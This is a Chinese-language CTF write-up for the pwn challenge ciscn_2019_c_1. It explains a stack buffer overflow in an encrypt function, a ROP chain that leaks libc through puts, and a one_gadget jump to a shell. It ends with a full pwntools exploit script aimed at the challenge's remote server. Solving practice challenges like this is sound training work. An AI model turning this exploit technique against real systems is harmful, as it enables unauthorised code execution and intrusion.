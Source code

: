 # ciscn_2019_c_1 WriteUp

## 考点

- libc版本泄漏
- ROP攻击
- onegadget使用

## 解题过程

1. 使用`checksec`工具进行查看，程序为64位，NX保护

![checksec](./images/checksec.png)

2. 使用ida工具反编译。

`main`:

![main](images\main.png)

`encrypt`：

![encrypt](images\encrypt.png)

​		可以看出程序功能为对输入字符串进行加密，而加密`encrypt`函数中的get存在栈溢出漏洞。

3. 由于在程序中找不到`system`函数和`/bin/sh`字符串，所以需要进行ROP攻击，泄漏其libc地址，使用onegadget工具直接获取shell。
4. 使用ROPgadget工具获取泄漏libc地址所需的指令地址(`pop rdi`; )，然后获取程序中put_got表和put_plt表地址，执行栈溢出payload构造如下

```python
payload = flat(b"\0", b"a"*(0x50-1), 0x0, pop_rdi, puts_got, puts_plt, encrypt)
```

​		注意最后需要加上encrypt函数使程序重新回到漏洞函数处。

5. 获取libc基址后，再次进入漏洞函数，然后执行onegadget指令。获取shell。

## 结果

**构造脚本如下**

`python`：

```python
from pwn import *

context(arch="amd64", log_level="debug")
# p = process("./ciscn_2019_c_1")
p = remote("node4.buuoj.cn", 26936)

one_gadget = 0x10a38c  # 0x4f322, 0x4f2c5, 0x10a38c
pop_rdi = 0x400c83
encrypt = 0x4009A0

elf = ELF('./ciscn_2019_c_1')
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

libc = ELF('./libc-2.27.so')
puts_offset = libc.symbols['puts']

payload = flat(b"\0", b"a"*(0x50-1), 0x0, pop_rdi, puts_got, puts_plt, encrypt)
# gdb.attach(p, 'b *0x4009DD')
p.sendlineafter(b"Input your choice!", b'1')
p.sendlineafter(b'Input your Plaintext to be encrypted', payload)
p.recvuntil("\nCiphertext\n\n")
puts_addr = p.recv(6)
puts_addr = u64(puts_addr.ljust(8, b'\x00'))
success(hex(puts_addr))
libc_addr = puts_addr - puts_offset
success(hex(libc_addr))

one_gadget = libc_addr + one_gadget

payload = flat(b"\0", b'a'*(0x50-1), 0x0, one_gadget)
p.sendlineafter(b"Input your Plaintext to be encrypted", payload)


p.interactive()
```

成功获取flag

![result](images\result.png)
